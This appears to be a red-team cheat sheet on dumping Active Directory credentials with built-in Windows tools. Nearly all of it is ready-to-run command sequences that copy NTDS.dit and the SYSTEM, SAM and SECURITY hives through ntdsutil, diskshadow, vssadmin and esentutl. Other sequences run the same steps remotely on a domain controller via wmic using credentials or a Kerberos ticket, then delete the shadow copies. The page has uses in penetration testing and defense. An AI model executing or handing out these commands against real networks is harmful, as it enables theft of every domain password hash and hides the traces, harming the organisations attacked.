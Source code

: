 # Living off the Land

## 01 - Command Prompt

### 1.1 - Enumerate Registry Files

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### 1.2 - Extract Shadow File

#### 1.2.1 - Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q

C:\> dir c:\temp
```

#### 1.2.2 - DiskShadow

^c70a55

Write down the diskshadow commands in a text file to automate the process.

```
C:\> mkdir C:\exfil

C:\> type C:\diskshadow.txt
set context persistent nowriters
add volume c: alias ShadowVolume
create
expose %ShadowVolume% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %ShadowVolume%
reset
```

Then extract shadow file and SYSTEM from registry. Once two files are present go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Unix Shell|section to use impacket to extract credentials via hashdump]].

```
C:\> diskshadow.exe /s c:\diskshadow.txt
C:\> reg.exe save hklm\system c:\exfil\system.bak
C:\> dir c:\exfil
```

#### 1.2.3 - VSSAdmin.exe

```
C:\> vssadmin.exe create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\extract.dit

C:\> vssadmin.exe create shadow /for=C: 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1

C:\> dir C:\ShadowCopy\

C:\> vssadmin.exe delete shadows /for=C:
```

Can be performed laterally via `wmic.exe`.

```
C:\> wmic.exe /node:<domain_controller_IP> [/user:<DOMAIN>\<username> /password:<password>] process call create "cmd.exe /c vssadmin 
create shadow /for=C: 2>&1"

C:\> wmic.exe /node:<domain_controller_IP> [/user:<DOMAIN>\<username> /password:<password>] process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic.exe /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

You can also pass the ticket.

```
C:\> wmic.exe /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /c vssadmin create shadow /for=C: 2>&1"

C:\> wmic.exe /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic.exe /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /cvssadmin delete shadows /for=C: 2>&1"
```

Delete shadow files.

```
C:\> vssadmin.exe List Shadows

C:\> vssadmin.exe Delete Shadows /For=C:

C:\> vssadmin.exe delete shadows /all /quiet
```

#### 1.2.4 - esentutl.exe

```
C:\> esentutl.exe /p c:\temp\ntds.dit
```

```
C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\SYSTEM
```

## 02 - PowerShell

### Enumerate Registry Files

```
C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters -Value "DSA Database file"
```

### Extract Shadow File

TODO: Include powershell cmdlets to convert some of the techniques below

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [Pentestlab Blog: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

- [Active Directory Security: How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

- [Red Team Notes: Dumping Domain Controller Hashes Locally and Remotely](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

- [Red Team Notes: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin)

- [DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)

- [Password Auditing: How to Extract and Analyse Domain User Passwords](https://www.surecloud.com/resources/blog/extract-analyse-domain-user-passwords)

- [Ultimate IT Security: Creating a shadow copy of ntds.dit and the SYSTEM file](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=bbcddadf-677f-4f60-9d55-914f631c3d1a)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)